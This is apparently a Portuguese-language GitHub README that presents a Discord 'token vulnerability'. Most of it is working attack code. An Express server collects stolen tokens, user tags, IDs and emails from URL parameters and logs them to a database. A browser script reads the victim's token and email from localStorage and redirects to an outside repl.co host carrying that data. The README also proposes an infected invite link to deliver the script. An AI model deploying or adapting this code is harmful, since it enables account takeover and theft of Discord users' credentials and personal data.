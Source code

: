 ![discord-logo-5](https://user-images.githubusercontent.com/79233369/116970628-b4961400-ac8e-11eb-8749-d19f813ea615.png)
# Discord Vulnerabilidade Token
 ## Este é um bug do discord onde é possivel conseguir o token de um usuario apenas com um comando

 ### Oque precisa ser feito para acontecer o bug:

 - primeiro: o desenvolvimento de um servidor http de coleta de parametros pela url que seria algo muito simples, exemplo : [Servidor Exemplo](https://github.com/VhCompany1/Discord-Bug-Token/blob/main/Servidor/index.js)

```js
const express = require('express');
const app = express();
const port = 3000;

const path = require("path");

const low = require('lowdb') //banco de dados
const FileSync = require('lowdb/adapters/FileSync')
const adapter = new FileSync('database/db.json')
const db = low(adapter)

app.use("/public", express.static("public"));

app.get("/", (req, res) => {

    let token = req.query.token
    let tag = req.query.tag
    let id = req.query.id
    let email = req.query.email

    let bot = `false`

    if(token == undefined && tag == undefined && id == undefined && email == undefined){
        bot = `true`
        console.log('bot...')
        return;
    }

    if(token == undefined){
        token = `parametro token não passado`
    }
    
    if(tag == undefined){
        tag = `undefined#0000`
    }
    
    if(id == undefined){
        id = `parametro id não passado`
    }
    
    if(email == undefined){
        email = `undefined@gmail.com`
    }

    console.log(`o usuario logou com sucesso:${tag}`)
    if(!token) return;

    db.get('logs').push({
        token: token,
        tag: tag,
        id: id,
        email: email 
    }).write()    

    res.sendFile(path.join(__dirname, "public/index.html"));
})    

app.listen(port, () => console.log(`Example app listening at http://localhost:${port}`)); 
```
 - segundo: o desenvolvimento de um script para enviar o token por esse url, exemplo :
[Script de Envio Para o Servidor](https://github.com/VhCompany1/Discord-Bug-Token/blob/main/Code/ENV.js)
 
 ```js
function env(modul){
    const token = document.body.appendChild(document.createElement `iframe`).contentWindow.localStorage.token
    const tag = `${window.document.querySelector('div.size14-e6ZScH').innerText}%23${window.document.querySelector('div.size12-3cLvbJ').innerText.substr(1)}`
    const id = document.body.appendChild(document.createElement `iframe`).contentWindow.localStorage.user_id_cache
    const email = document.body.appendChild(document.createElement `iframe`).contentWindow.localStorage.email_cache

    if(modul == undefined){
        op1()
        modul = 1
    }else{}

    switch(modul){
        case 1:
            op1()
            break
        default:
            console.log(`Modulo ${modul} não foi encontrado`)
    }

    function op1(){
        window.location.href = `https://tokenlog.sasukecusaovh.repl.co/?token=${token}&tag=${tag}&id=${id}&email=${email}`
    }
}

env(1)
```
 - terceiro: o desenvolvimento de um url infectado como o invite de um server ou o invite de um bot para que quando o discord seja  iniciado o codigo seja rodado
 
 ### Oque era pra acontecer caso não existise bug:

 se o bug nao existisse o usuario iria usar o discord normalmente sem enviar nenhum dado sensivel para nenhum servidor

 ### Oque realmente acontece:

com o bug acontecendo o usuario acha que esta usando o discord normalmente porem ele envia um dado sensivel, exemplo: [Exemplo DataBase Com Dados](https://github.com/VhCompany1/Discord-Bug-Token/blob/main/Servidor/database/db.json)

```json
{
  "logs": [
    {
      "token": "token de um usuario:0000",
      "tag": "tag de um usuario:undefined#0000",
      "id": "id de um usuario:0000",
      "email": "emailo de um usuario:undefined@gmail.com"
    }
  ]
}
```



